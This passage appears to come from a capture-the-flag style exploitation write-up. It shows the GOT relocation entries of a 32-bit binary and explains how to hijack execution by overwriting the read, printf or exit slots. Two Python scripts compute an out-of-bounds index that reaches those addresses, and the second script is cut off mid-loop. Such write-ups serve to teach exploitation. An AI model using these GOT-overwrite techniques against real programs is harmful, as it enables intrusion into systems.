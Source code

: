 ```
0804a050 R_386_JUMP_SLOT   pipe
0804a054 R_386_JUMP_SLOT   fork
0804a058 R_386_JUMP_SLOT   sprintf
0804a05c R_386_JUMP_SLOT   setresgid
```

Inspecting the code of the program reveals the functions read, printf and exit might be called after memory corruption, being able to overwrite the entry of one those should allow us to redirect execution.

A naive approach would be to calculate the write addresses for each value of i. This can be done with the following script :

```python
import sys
BASE = 0x0804A100
addresses = [
    0x0804A010, # read
    0x0804A014, # printf
    0x0804A030, # puts
    0x0804A03C, # exit
]
i = 0
while (i <= 0xFFFFFFFF):
    if i % 100000 == 0 :
        print("Trying i = {0}...".format(hex(i)))

    writeAddr = (BASE + (i * 0x88)) & 0xFFFFFFFF
    for addr in addresses:
        if addr == writeAddr or (addr > writeAddr and addr - writeAddr <= 8):
            print("FOUND : writeAddr {0} i = {1}".format(hex(writeAddr), i))
            sys.exit()
    i += 1
```

While this approach will find a result, it is very slow. A better approach is to take into account the fact that the value of `writeAddr` grows by 0x88 each time i is increased. We can bring back `writeAddr` around the area of the address we are targeting by increasing i so that it cycles over the 32 bit address space. To obtain this value, we divide 0xFFFFFFFF by 0x88 which gives us 31 580 641. Then it's just a matter of adjusting i upward or downward until we are between 0x88 bytes of our target address. We have now saved 31 580 640 useless computations, that's a nice optimization :-)

```python
addresses = [
    0x0804A010, # read
    0x0804A014, # printf
    0x0804A030, # puts
    0x0804A03C, # exit
]
BASE     = 0x0804A100
TARGET   = addresses[0]
i = 0
n = 0
while i <= 0xFFFFFFFF:
    i=(31580641*n)
    writeaddr = 0
    diff = 0

    while True:
        writeaddr = (BASE + (i * 0x88)) & 0xFFFFFFFF
        if writeaddr >=  TARGET:
            diff = writeaddr - TARGET
            if   diff <= 0x88:
                break
            else:
                i -= 1
```